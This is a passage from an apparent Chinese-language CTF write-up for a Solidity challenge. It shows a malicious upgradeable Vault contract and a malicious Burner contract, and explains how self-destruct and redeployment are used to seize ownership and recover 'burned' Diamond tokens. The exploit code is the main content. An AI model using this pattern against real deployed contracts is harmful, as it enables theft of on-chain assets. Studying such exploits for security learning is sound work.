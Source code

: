 ```Solidity
        );
        (bool success, ) = address(this).call(data);
        require(success);
    }

    function burn(address token, uint amount) external {
        require(msg.sender == owner() || msg.sender == address(this));
        Burner burner = new Burner();
        IERC20(token).transfer(address(burner), amount);
        burner.destruct();
    }

    function _authorizeUpgrade(address) internal view override {
        require(msg.sender == owner() || msg.sender == address(this));
        require(IERC20(diamond).balanceOf(address(this)) == 0);
    }

    function _selfdestruct() public {
        selfdestruct(payable(address(this)));
    }

    function new_sender() public {
        Burner burner = new Burner();
        burner.destruct2(address(diamond));
        IERC20(diamond).transfer(msg.sender, 31337);
    }
}
```

我们这个恶意的Vault添加了自毁函数以方便我们重新部署合约并获得owner权限，同时添加了`new_sender`函数创建并使用我们恶意的Burner合约将“被销毁”的Diamond重新发送给恶意Vault并最终发送到我们自己手上

恶意的Burner合约如下：（`Burner2.sol`）

```Solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.13;

import "./Diamond.sol";

contract Burner {
    Diamond diamond;

    constructor() {}

    function destruct() external {
        selfdestruct(payable(address(this)));
    }

    function destruct2(address _diamond) external {
        diamond = Diamond(_diamond);
        diamond.transfer(msg.sender, 31337);
    }
}
```
